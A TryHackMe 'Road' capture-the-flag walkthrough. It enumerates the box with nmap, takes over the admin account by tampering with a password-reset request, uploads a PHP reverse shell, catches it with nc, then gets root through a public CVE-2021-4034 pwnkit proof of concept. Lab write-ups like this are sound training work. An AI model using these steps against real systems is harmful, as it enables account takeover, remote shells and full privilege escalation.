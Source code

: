 ```yaml
---
title: "Road"
author: "Divyanshu Sharma"
date: 2022-10-04
permalink: /tryhackme/road
tags: tryhackme
---
```



# IP
10.10.190.155


## Enumeration
### Nmap
- Found two ports running on the machine

```console
❯ nmap -sC -sV 10.10.190.155 | tee nmap.log
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-31 14:20 IST
Nmap scan report for 10.10.190.155
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 e6:dc:88:69:de:a1:73:8e:84:5b:a1:3e:27:9f:07:24 (RSA)
|   256 6b:ea:18:5d:8d:c7:9e:9a:01:2c:dd:50:c5:f8:c8:05 (ECDSA)
|_  256 ef:06:d7:e4:b1:65:15:6e:94:62:cc:dd:f0:8a:1a:24 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Sky Couriers
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.06 seconds
```

### Web
- On going to we page found a simple and a lot static website, except, search input and a login screen.
- Try using SQL Injection on the search input, but didn't find anything interesting.
- Tried SQL Injection on the login screen but didn't find anything interesting. 
- Then created a new user and logged in.
- There was nothing interesting on the dashboard but in profile, found an upload option but it was only allowed for `admin@sky.thm`.
- On the home screen there was an option to reset password, tried changing password for my user and intercepted the network with `BurpSuite`.
- Sent this request to `repeater` and edited the username to admin@sky.thm.
- Tried logging in with username `admin@sky.thm` and voila we are using the administrator account.
- Uploaded a php-reverse-shell to the Image option. 
- But we still don't know where is it stored.
- On looking at the page source found a comment
```html
<!-- /v2/profileimages/ -->
<script type="text/javascript">
        function showtab(tab){
          console.log(tab);
          if(tab == 'new_task'){
            $('#new_task').css('display','block');
            $('#your_task').css('display','none');
          }else{
            $('#new_task').css('display','none');
            $('#your_task').css('display','block');
          }
        }
      </script>
```
- This directory seems legit.



# Exploitation
## Web
On going to (http://10.10.190.155/v2/profileimages/php-reverse-shell.php) got the reverse shell.
```console
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.17.0.215] from (UNKNOWN) [10.10.190.155] 32854
Linux sky 5.4.0-73-generic #82-Ubuntu SMP Wed Apr 14 17:39:42 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 09:43:29 up 58 min,  0 users,  load average: 0.52, 0.15, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```
- Upgraded the shell and found the user flag
```console
www-data@sky:/$ ls -a
.    boot   etc   lib32   lost+found  opt   run   srv	    tmp
..   cdrom  home  lib64   media       proc  sbin  swap.img  usr
bin  dev    lib   libx32  mnt	      root  snap  sys	    var
www-data@sky:/$ cd /home
www-data@sky:/home$ ls
webdeveloper
www-data@sky:/home$ cd webdeveloper/
www-data@sky:/home/webdeveloper$ ls
user.txt
www-data@sky:/home/webdeveloper$ cat user.txt
63191e4ece37523c9fe6bb62a5e64d45
```

- On loading `linpeas.sh` found this system vulnerable to [CVE-2021-4034](https://github.com/arthepsy/CVE-2021-4034)

### Privilege Escalation
- Downloaded [this](https://github.com/arthepsy/CVE-2021-4034/blob/main/cve-2021-4034-poc.c) exploit.
- Uploaded to the machine from local machine.
- Made an executable with `gcc` and executed it.
```console
www-data@sky:/tmp$ gcc cve-2021-4034-poc.c
www-data@sky:/tmp$ ls
a.out  cve-2021-4034-poc.c  cve-2021-4034.sh  linpeas.log  linpeas.sh  tmux-33
www-data@sky:/tmp$ ./a.out
# whoami
root
#
```
- We are root.
- Got root flag.
```console
# cat /root/root.txt
3a62d897c40a815ecbe267df2f533ac6
```
